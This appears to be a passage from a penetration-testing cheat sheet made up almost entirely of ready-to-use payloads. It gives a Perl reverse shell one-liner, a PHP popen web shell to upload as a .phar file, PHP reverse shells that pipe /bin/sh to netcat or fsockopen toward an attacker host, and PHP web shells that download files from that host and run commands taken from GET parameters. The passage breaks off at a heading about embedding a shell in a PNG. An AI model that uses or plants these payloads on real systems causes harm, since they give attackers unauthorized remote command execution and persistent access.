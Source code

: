 ## Perl Reverse Shell

```c
perl -e 'use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PHP popen Web Shell

> https://www.php.net/manual/en/function.popen.php

Upload it for example as `webshell.phar`.

```c
<?php
$command = $_GET['cmd'];
$handle = popen($command, 'r');
$output = fgets($handle);
echo $output;
?>
```

## PHP Reverse Shell

### Common Payloads

```c
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f"); ?>
```

## Operating System

```c
$ php -r '$sock=fsockopen("<LHOST>",<LPORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Upload

```c
<?php file_put_contents($_GET['upload'], file_get_contents("http://<LHOST>:<LPORT>/" . $_GET['upload']); ?>
```

### Upload and Execution

```c
<?php if (isset($_GET['upload'])) {file_put_contents($_GET['upload'], file_get_contents("http://<LHOST>:<LPORT>/" . $_GET['upload'])); }; if (isset($_GET['cmd'])) { system($_GET['cmd']); };?>
```

### Embedded in .png-File
